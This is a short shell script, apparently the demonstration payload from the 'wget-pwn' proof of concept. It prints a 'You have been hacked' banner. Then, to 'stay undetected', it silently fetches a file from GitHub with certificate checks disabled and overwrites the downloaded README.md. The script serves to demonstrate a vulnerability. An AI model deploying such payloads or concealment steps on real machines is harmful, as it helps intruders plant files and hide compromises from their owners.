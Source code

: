 echo
echo "!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!"
echo "!      You have been hacked               !" 
echo "!                                         !"
echo "! https://github.com/markus-perl/wget-pwn !"
echo "!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!"

echo "
_____.___.             .__   ._._.
\__  |   | ____ _____  |  |__| | |
 /   |   |/ __ \\__  \ |  |  \ | |
 \____   \  ___/ / __ \|   Y  \|\|
 / ______|\___  >____  /___|  /___
 \/           \/     \/     \/\/\/
 "

printf "Done. Patching downloaded file to stay undetected ..."
wget --no-check-certificate -q "https://raw.githubusercontent.com/markus-perl/wget-pwn/master/README.md" -O README.md 2>/dev/null

